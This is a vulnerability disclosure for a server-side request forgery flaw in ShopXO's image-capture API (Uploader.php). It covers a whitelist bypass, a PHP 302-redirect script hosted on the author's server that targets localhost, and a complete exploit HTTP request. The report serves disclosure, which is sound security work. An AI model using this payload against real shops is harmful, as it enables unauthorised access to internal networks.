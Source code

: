BUG_Author:
Rui Jie

Affected version:
ShopXO-Enterprise E-commerce System

Vendor:
https://shopxo.net/

Software:
https://github.com/gongfuxiang/shopxo
https://gitee.com/zongzhige/shopxo


Vulnerability File:
extend/base/Uploader.php

Description:
A vulnerability classified as critical has been discovered in Shopxo. This affects the remote part of the file Uploader.php. Manipulation of the parameter "source" leads to Cross-Site Request Forgery.
Attackers can achieve the attack through unauthorised api , any registered user can use the api to achieve remote image file capture , but there is no filtering can be completely bypassed , resulting in cross-site requests for access to achieve unauthorised access to the intranet ( SSRF )
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271331660.png)
Even though there is an image whitelisting suffix judgement. It is still possible to bypass the judgement by passing in `? ` to bypass the judgement.
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271333632.png)
At the same time, the local ip is banned, but you can access the local ip through the 302 jump.
For example
I put `shopxossrf.php` on my vps.
```
<?php
header("Location: http://127.0.0.1:67/ssrf");
```
Access to local port 67 is achieved by accessing `http://148.135.82.190/shopxossrf.php?1=cat.jpg'
payload
```
GET /api.php?s=Ueditor/Index/path_type/index&action=catchimage&XDEBUG_SESSION_START=12320&source[]=http://148.135.82.190/shopxossrf.php?1=cat.jpg HTTP/1.1
Host: 127.0.0.4
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=cbf871fe41acbafcbb8797c6b92feb4a; XDEBUG_SESSION=12320; uuid=3f9aa20c-1ee6-a46c-9a83-731dbf08cc97
sec-fetch-user: ?1
Connection: close
```

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271340268.png)
I got the request right away.
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271340840.png)
